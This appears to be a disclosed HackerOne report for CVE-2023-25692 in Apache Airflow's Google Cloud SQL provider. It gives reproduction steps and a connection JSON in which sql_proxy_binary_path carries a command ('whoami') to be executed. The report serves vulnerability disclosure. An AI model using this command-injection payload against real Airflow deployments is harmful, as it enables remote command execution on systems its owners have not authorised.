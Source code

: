 # CVE-2023-25692: Apache Airflow Google Provider: Google Cloud Sql Provider Denial Of Service and Remote Command Execution

## Report Details
- **Report ID**: 1895316
- **URL**: https://hackerone.com/reports/1895316
- **State**: Closed
- **Severity**: low
- **Submitted**: 2023-03-07T16:04:42.921Z
- **Disclosed**: 2023-04-16T18:28:51.231Z

## Reporter
- **Username**: sw0rd1ight
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
## 0x01 Environment

- airflow 2.5.1
- apache-airflow-providers-google 8.8.0
- Build with docker compose

##  0x02 Reproduction Steps
### 2.1 Create a malicious Google Cloud SQL Database connection
Create the following Google Cloud SQL Database connection named **aaa** under the Admin->Connections menu.Among them, Host, Schema, Login, and Port are required, just fill in the content that conforms to the format.

{F2213508}
The actual content filled in **Extra** field is as follows. Note that **sql_proxy_version** must be similar to `?a=`, and the value of **sql_proxy_binary_path** is set to the command to be executed. Fill in 'whoami' here.
```python
{
  "project_id":"pivotal-gearing-375804",
  "instance":"hellopg",
  "location":"us-central1-b",
  "database_type":"postgres",
  "use_proxy":"True",
  "use_ssl":"False",
  "sql_proxy_use_tcp":"True",
  "sql_proxy_version":"?a=",
  "sql_proxy_binary_path":"whoami",
  "sslcert":"",
  "sslkey":"",
  "sslrootcert":""
}
```
